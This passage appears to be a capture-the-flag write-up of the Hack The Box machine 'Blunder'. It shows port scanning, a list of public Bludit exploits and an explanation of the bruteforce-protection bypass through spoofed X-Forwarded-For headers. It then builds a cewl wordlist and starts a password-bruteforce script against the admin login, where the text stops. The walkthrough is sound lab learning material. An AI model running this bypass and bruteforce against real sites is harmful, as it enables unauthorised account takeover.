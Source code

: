 ## TCP/21 (FTP)
```
PORT   STATE  SERVICE REASON         VERSION
21/tcp closed ftp     reset ttl 63
```


# Initial Foothold

## TCP/80 (HTTP) - Bludit 3.9.2 Bruteforce Prevention Bypass
1. Found CMS w/ `burpsuite`
	![]({{ page.img_path }}Pasted%20image%2020230106214013.png)
	> Bludit, some kind of CMS?
	{: .prompt-info }
2. Search exploits for `bludit`

	| Exploit Title                                                | Path                       |
	| ------------------------------------------------------------ | -------------------------- |
	| Bludit 3.9.12 - Directory Traversal                          | php/webapps/48568.py       |
	| Bludit 3.9.2 - Auth Bruteforce Bypass                        | php/webapps/48942.py       |
	| Bludit 3.9.2 - Authentication Bruteforce Bypass (Metasploit) | php/webapps/49037.rb       |
	| Bludit 3.9.2 - Directory Traversal                           | multiple/webapps/48701.txt |
3. How does `Bludit 3.9.2 - Auth Bruteforce Bypass` work?
	> - Bludit has a bruteforce prevention mechanism, it uses a function `getUserIp` which attempts to determine the _true_ IP address of the end user by trusting the `X-Forwarded-For` and `Client-IP` HTTP headers, however attackers can easily spoof the source IP address, 
	> - Also, there are no checks/validations to ensure that they are valid IP addresses, 
	> - Allowing attackers to use any arbitrary value and not risk being locked out
	{: .prompt-info }
4. After visting `http://blunder.htb`, I realised that there are a lot of words, usually when this happens, I will use `cewl` to create a password word list.
	```
	┌──(root💀kali)-[~/htb/blunder/10.10.10.191/exploit]
	└─# cewl http://10.10.10.191/ -w passwords.txt
	CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
	```
5. Next, proceed to `http://blunder.htb/todo.txt`
	```
	┌──(root💀kali)-[~/htb/blunder/10.10.10.191/exploit]
	└─# curl blunder.htb/todo.txt
	-Update the CMS
	-Turn off FTP - DONE
	-Remove old users - DONE
	-Inform fergus that the new blog needs images - PENDING
	```
	> `fergus` seems like a username
	{: .prompt-info }
6. With that, we can proceed to bruteforce the admin page
	```
	┌──(root💀kali)-[~/htb/blunder/10.10.10.191/exploit]
	└─# python3 48942.py -l http://10.10.10.191/admin/ -u usernames.txt -p passwords.txt
	